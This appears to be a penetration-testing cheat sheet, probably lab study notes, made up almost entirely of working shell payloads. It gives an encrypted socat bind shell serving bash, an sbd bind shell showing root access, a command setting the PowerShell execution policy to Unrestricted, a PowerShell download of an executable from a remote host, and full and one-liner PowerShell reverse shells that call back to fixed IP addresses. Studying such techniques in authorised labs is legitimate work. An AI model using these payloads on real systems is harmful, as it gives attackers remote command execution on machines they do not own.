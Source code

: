 ```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

cat bind_shell.key bind_shell.crt > bind_shell.pem

sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash


socat - OPENSSL:10.11.0.4:443,verify=0
```

#### Notes
When windows OS is involved, use pipes parameter for shell to work.
For low range ports, need to use sudo.

### SBD

```
root@kali:~# sbd -l -p 4444 -e bash -v -n
listening on port 4444
root@kali:~# sbd 192.168.1.202 4444
id
uid=0(root) gid=0(root) groups=0(root)
```

## PowerShell and Powercat

### PowerShell

```
PS C:\WINDOWS\system32> Set-ExecutionPolicy Unrestricted
PS C:\WINDOWS\system32> Get-ExecutionPolicy
```
#### PowerShell File Transfers

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Deskto p\wget.exe')"
```

#### PowerShell Reverse Shells

```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443); 
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); 
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); 
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
} 
$client.Close();
```
#### One-liner reverse sell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.175',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```